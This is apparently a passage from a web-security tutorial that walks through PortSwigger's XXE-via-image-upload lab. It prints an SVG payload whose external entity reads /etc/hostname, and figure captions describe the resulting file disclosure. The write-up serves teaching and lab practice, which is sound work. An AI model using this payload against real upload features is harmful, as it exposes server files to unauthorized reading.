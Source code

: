 > _The example below is based on PortSwigger's_ [_Exploiting XXE via image file upload_](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload) _lab._

The application has an upload functionality within the comments section (Figure 4).

<figure><img src="../../../../.gitbook/assets/web_xxe_3.png" alt=""><figcaption><p>Figure 4: Enumerating a potential XXE injection vulnerability.</p></figcaption></figure>

We can try injecting a out-of-the-box payload, such as [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg), and see what comes back (Figure 5).

{% code overflow="wrap" %}
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_xxe_4.png" alt=""><figcaption><p>Figure 5: Achieving LFI via XXE injection.</p></figcaption></figure>
